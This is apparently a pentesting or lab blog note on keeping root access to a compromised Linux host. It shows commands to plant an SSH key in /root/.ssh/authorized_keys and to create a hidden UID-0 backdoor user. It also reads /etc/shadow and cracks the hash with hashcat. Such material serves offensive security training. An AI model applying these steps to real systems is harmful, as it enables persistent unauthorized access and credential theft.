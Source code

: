 ```yaml
---
title: Linux Persistence
draft: false
tags:
  - linux
  - persistence
  - add-user
  - ssh-keygen
---
```



## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.


## SSH as root

This is my most recommended and preferred method of maintaining persistence.

First move to the root directory: `cd /root`

If there is not already, created **.ssh** directory: `mkdir .ssh`

Move in to **.ssh** directory: `cd .ssh`

Generate ssh key: `ssh-keygen -f mykey`

![](https://i.imgur.com/rnqmeIa.png)

Copy generated public key to **authorized_keys**: `cat mykey.pub > authorized_keys`

Now there should be these three files on your target root .ssh directory:

![](https://i.imgur.com/jAG7jeg.png)


Copy private key to local machine.

Back in your target system, change permission for **.ssh** directory and **authorized_keys** file: `chmod 700 .ssh` & `chmod 600 .ssh/authorized_keys`

![](https://i.imgur.com/UbAar54.png)

Now using the copied private key, you sign in to SSH as root: `ssh -i mykey root@10.10.10.13`

![](https://i.imgur.com/WTwCQHs.png)

## Add user
I can add whatever user I want to root group and this will allow me to escalate my privilege to root directly when I gain access to low privilege user shell.

I add user and set password using the commands below:
```bash
useradd -ou 0 -g 0 hacker-jadu
passwd hacker-jadu
```

![](https://i.imgur.com/BqerUVn.png)




Now I can switch to user **hacker-jadu** using `su hacker-jadu`:


![](https://i.imgur.com/angpxK5.png)



## Crack /etc/shadow

This method is not very recommended since you don't know how strict password policy is for your target environment.

Taking a look at **/etc/shadow** file, I can see hashed password for the previous set user **hacker-jadu**:

![](https://i.imgur.com/V5dG9C4.png)


Using hashcat, I can crack this hash which will reveal password: 

`hashcat -m 1800 hash rockyou.txt`

![](https://i.imgur.com/vf6tTDH.png)


